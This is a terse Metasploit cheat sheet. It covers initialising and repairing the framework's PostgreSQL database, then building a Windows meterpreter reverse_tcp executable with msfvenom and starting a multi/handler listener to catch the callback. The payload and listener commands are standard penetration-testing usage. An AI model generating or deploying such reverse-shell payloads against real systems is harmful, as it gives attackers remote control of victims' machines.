 DB
--- 

__msf db init:__  
>
> sudo systemctl enable postgresql  
> sudo systemctl start postgresql  
> sudo msfdb init  
>
> msfconsole -q  
> `msf > db_status`

__upd msf pg collation:__  
>
> sudo -u postgres psql  
> `# \l`  
> `# \c msf`  
> `# REINDEX DATABASE msf;`  
> `# ALTER DATABASE msf REFRESH COLLATION VERSION;`  
> `# \q`  

MTR
---

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100.exe  

> msfconsole -q  
>
> `msf > use exploit/multi/handler`    
>
> `msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp`  
> `msf exploit(handler) > set LHOST 192.168.0.100`    
> `msf exploit(handler) > set LPORT 4444`    
> `msf exploit(handler) > set ExitOnSession false`    
> `msf exploit(handler) > exploit -j`

---

  
